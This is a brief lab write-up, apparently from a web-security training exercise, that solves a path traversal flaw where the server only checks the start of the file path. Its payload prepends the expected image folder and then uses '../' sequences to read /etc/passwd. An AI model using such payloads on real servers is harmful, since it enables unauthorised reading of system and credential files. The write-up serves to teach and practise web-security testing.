 # Lab: File path traversal, validation of start of path

This lab contains a path traversal vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

**Analysis:** Sometimes it will expect you to start at the base folder. 

`/image?filename=/var/www/images`

`filename=/var/www/images/../../../etc/passwd`

**Payload:** The payload is the same as our description so this one should be easy.

```php
image?filename=/var/www/images/../../../etc/passwd 
```


